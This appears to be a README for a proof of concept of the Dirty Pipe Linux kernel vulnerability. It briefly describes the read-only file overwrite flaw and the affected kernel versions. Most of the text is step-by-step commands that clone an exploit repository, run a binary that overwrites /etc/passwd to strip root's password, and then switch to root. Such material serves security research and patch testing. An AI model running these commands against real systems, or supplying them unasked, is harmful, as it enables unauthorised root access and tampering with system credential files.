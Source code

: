# Dirty-Pipe (PoC)

![image1](https://i.imgur.com/VDCLoTZ.png)

# What is it?

Dirty-Pipe is a vulnerability which allows us to overwrite files even if they have read-only permissions. This vulnerability affects kernel versions 5.8 onwards. This vulnerability has reportedly been patched for kernel versions 5.10.102, 5.12.25 and 5.16.11.

---

# PoC (Proof Of Concept)

1. First of all, we must clone the repository where the exploit is located. 

```bash
git clone https://github.com/Nekoox/dirty-pipe.git
```

2. Once cloned, we enter the directory and execute the exploit with the following syntax.

```bash
cd dirty-pipe
```

```bash
chmod +x exp
```

````bash
./exp /etc/passwd 1 "${$(cat /etc/passwd)/root:x/oot:}"
````

3. Once run, if the kernel version is vulnerable, it should work fine. We change to root.

```bash
su
```

![image](https://i.imgur.com/D2Qm4qh.png)

And as we can see we have successfully exploited Dirty-Pipe!
